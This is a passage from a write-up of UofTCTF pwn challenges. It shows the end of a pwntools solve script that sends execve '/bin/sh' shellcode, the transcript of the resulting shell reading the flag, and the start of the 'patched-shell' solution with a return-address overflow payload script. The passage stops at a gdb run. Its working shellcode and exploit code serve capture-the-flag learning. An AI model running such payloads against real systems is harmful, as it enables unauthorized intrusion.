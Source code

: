 ```py
shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
p.sendline(shellcode)
p.interactive()
```
{: file="solve.py"}
```console
> python solve.py
[+] Opening connection to 34.28.147.7 on port 5000: Done
[*] Switching to interactive mode
$ ls
flag
run
$ cat flag
uoftctf{arbitrary_machine_code_execution}
```
### Flag
`uoftctf{arbitrary_machine_code_execution}`

## pwn/patched-shell

### Challenge
```
Okay, okay. So you were smart enough to do basic overflow huh...

Now try this challenge! I patched the shell function so it calls system instead of execve... so now your exploit shouldn't work! bwahahahahaha

Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.

Author: drec

nc 34.134.173.142 5000
Attachment: patched-shell
```
### Solution
As the description says, the only difference between this challenge and `basic-overflow` is that the `shell()` function here uses `system()` to spawn a shell instead of `execve()`. If you try to run the previous exploit against the binary, you will see it fails:
```console
$ cat prev.py
import pwn

p64 = lambda x : pwn.pack(x, word_size=64)

elf = pwn.ELF('./patched-shell', checksec=False)

offset = 72
payload  = b''
payload += b'A' * offset
payload += p64(elf.symbols['shell'])

with open('payload', 'wb') as f:
    f.write(payload)

$ python prev.py

$ gdb ./patched-shell -q
pwndbg> run < payload
Starting program: /home/vulnx/Games/CTFs/UofT/pwn/patched-shell/patched-shell < payload

```